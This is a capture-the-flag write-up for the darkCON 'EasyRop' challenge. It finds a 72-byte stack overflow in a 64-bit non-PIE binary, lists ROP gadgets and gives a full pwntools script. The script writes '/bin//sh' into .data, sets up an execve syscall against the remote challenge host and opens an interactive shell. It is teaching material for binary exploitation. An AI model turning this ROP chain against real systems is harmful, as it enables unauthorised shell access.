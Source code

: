 ## EasyRop - Writeup

![challenge description](./chall_description.png)
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

Now I thought about my objective:
Getting a shell

What do we have to do so:
	1.Write "/bin/sh" somewhere in memory
	2.make a syscall or call system with the first parameter being the 
	  location of the string, and the two next parameters being just anything 

The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:

\[+] Gadget found: 0x4012d3 syscall 							; making the syscall
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory 
\[+] Gadget found: 0x40f4be pop rsi ; ret 					; controlling the rsi register
\[+] Gadget found: 0x4175eb pop rax ; ret 					; controlling rax
\[+] Gadget found: 0x40191a pop rdi ; ret 					; ...
\[+] Gadget found: 0x40f4be pop rsi ; ret 
\[+] Gadget found: 0x40181f pop rdx ; ret


## The Plan

pop writable location into rsi >> 
pop "/bin/sh" into rax >> 
call write gadget >> 
pop writable +8 into rsi >> 
pop (anything) into rax >> 
call writegadget >> 
pop /bin/sh location into rdi (the first syscall parameter) >> 
pop the junk data location into rsi and rdx (2. and 3. argument) >>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> 
make syscall

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:
![terminal output](./terminal_exploit_execution.png)

Well done! 
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
